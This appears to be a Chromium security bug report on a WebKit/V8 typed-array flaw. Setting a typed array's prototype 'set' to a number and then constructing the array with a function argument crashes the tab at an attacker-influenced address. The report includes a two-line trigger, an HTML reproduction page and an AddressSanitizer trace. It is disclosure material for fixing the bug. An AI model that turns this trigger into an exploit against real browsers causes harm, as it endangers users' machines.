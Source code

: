 
<b>VULNERABILITY DETAILS</b>

as per bug:
https://bugs.webkit.org/show_bug.cgi?id=75532

redefining setter on typed array to a number, then calling the constructor for that typed array, with a function as an argument, results in (good|bad) stuff.

Int32Array.prototype.set = 0x3ffff
new Int32Array(function() {})

if the first argument is an array, a different branch is taken. the 'value' of set goes into the high bits of the faulty address.

<b>VERSION</b>
Chrome Version: stable + dev 

Chromium	21.0.1154.0 (Developer Build 139215)
OS	Linux
WebKit	537.1 (@118560)
JavaScript	V8 3.11.6.2

Operating System: 64bit precise

<b>REPRODUCTION CASE</b>
<html>
  <head>
    <script>
      var arrays = ['Float32Array', 'Float64Array', 'Int8Array', 'Int16Array', 'Int32Array', 'Uint8Array', 'Uint8ClampedArray', 'Uint16Array', 'Uint32Array']
      var some=arrays[Math.floor(Math.random()*arrays.length)]
      window[some].prototype.set = 0x3ffff
      new window[some]([0], function() {})
    </script>
  </head>
  <body>
  </body>
</html>

<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
Type of crash: tab
Crash State: 


==24558== ERROR: AddressSanitizer crashed on unknown address 0x7fffe0000009 (pc 0x555558143c62 sp 0x7fffffff7f40 bp 0x7fffffff8070 T0)
AddressSanitizer can not provide additional info. ABORTING
    #0 0x555558143c62 in v8::Function::Call(v8::Handle<v8::Object>, int, v8::Handle<v8::Value>*) ???:0
    #1 0x55555a7554e9 in WebCore::copyElements(v8::Handle<v8::Object>, v8::Handle<v8::Object>, unsigned int) ???:0
    #2 0x555559ef8dd7 in v8::Handle<v8::Value> WebCore::constructWebGLArray<WTF::Int8Array, signed char>(v8::Arguments const&, WebCore::WrapperTypeInfo*, v8::ExternalArrayType) ???:0
    #3 0x5555581927fd in v8::internal::Builtin_HandleApiCallConstruct(v8::internal::(anonymous namespace)::BuiltinArguments<(v8::internal::BuiltinExtraArguments)1>, v8::internal::Isolate*) v8/src/builtins.cc:0

